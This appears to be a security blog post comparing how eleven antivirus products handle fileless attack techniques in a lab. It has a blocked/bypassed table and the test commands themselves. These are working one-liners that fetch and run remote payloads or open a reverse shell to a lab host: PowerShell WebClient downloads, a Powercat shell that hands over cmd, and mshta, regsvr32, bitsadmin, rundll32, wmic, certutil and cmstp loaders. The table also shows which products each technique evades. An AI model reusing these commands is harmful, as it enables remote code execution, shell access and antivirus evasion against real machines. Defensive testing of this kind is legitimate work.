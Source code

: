 ```yaml
---
title: "AV comparison on fileless attack"
date: "2020-04-08"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


I've test some fileless command in my lab with AV Protection and here's the result.

| Symbol | Description |
|---|---|
| ✔️ | Blocked |
| ❌ | Bypassed |

---

| Fileless technique | Bitdefender | Avast | Symantec | Webroot | ESET | Karspersky | Sophos | TrendMicro | WinDef | Malwarebytes | Panda Adaptive | 
| --- | ---| ---| ---| ---| ---| ---| ---| ---| ---| ---|---|
| koadic `mshta` | ✔️| ❌|❌ | ❌| ✔️ |❌ | ❌| ❌| ✔️ |❌ |❌ |
| koadic `regsvr` | ✔️|❌ |❌ | ❌|✔️ |✔️ |✔️ |✔️ | ✔️| ❌| ✔️|
| koadic `rundll32_js` | ✔️|❌ |✔️ | ❌|✔️ | ✔️|❌ |✔️ | ✔️| ❌| ✔️|
| koadic `bitsadmin ` | ❌|✔️ |❌ |❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
|koadic `disk`|✔️ | ❌| ❌|❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
| koadic `wmic` | ✔️|❌ |✔️ |❌ |❌ |✔️ |✔️ | ✔️| ✔️|❌ | ✔️|
| Malicious Powershell line  |✔️ |✔️ |✔️ |❌ | ❌| ✔️|❌ |✔️ | ❌| ❌| ✔️|
| msvenom `msiexec ` |✔️ |✔️ | ✔️|✔️ |✔️ |✔️ | ✔️| ✔️|✔️ |✔️ | ✔️|
| msvenom `certutil `| ✔️| ✔️| ✔️|❌ | ✔️| ✔️|✔️ |✔️ |✔️ |✔️ | ✔️|
| msvenom `batch ` | ✔️| ✔️| ✔️|❌ | ❌|✔️ |❌ |❌  | ✔️|❌ |❌ |
| msvenom `cscript `(vbs)  |✔️ |✔️ |✔️ |❌ |✔️ |✔️ |✔️ |✔️ |✔️ | ✔️| ✔️|
| Powercat | ✔️|✔️ | ✔️|❌ |❌ | ❌|❌ |❌  |✔️ |❌ | ✔️|


# Testcase

My testcase are mostly using msvenom with metasploit and koadic.

## Powershell

Download and execute
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"
```

Powercat
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/powercat.ps1');powercat -c 192.168.189.131 -p 9999 -e cmd"
```

Msvenom batch
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/ms.bat'))
```

Msvenom Vbscript
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
```

Powershell empire payload 

Powersploit

## Koadic

Mshta
```
mshta http://192.168.189.131:9999/tT4Fh
```

Regsvr32
```
regsvr32 /s /u /n /i:http://192.168.189.131:9998/d2XfT scrobj
```

Bitsadmin
```
bitsadmin /transfer oZHsz /download /priority high http://192.168.189.131:9995/oZHsz.wsf %temp%\oZHsz.wsf & start /wait %temp%\oZHsz.wsf & del %temp%\oZHsz.wsf
```

Rundll32
```
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://192.168.189.131:9997/eTMXy",false);x.send();eval(x.responseText);window.close();
```

Wmic
```
wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
```

## Others

Certutil
```
certutil.exe -urlcache -split -f http://192.168.189.131:7777/ms.exe ms.exe & ms.exe
```

Cmstp
```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```



# Note
Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized by its pattern.
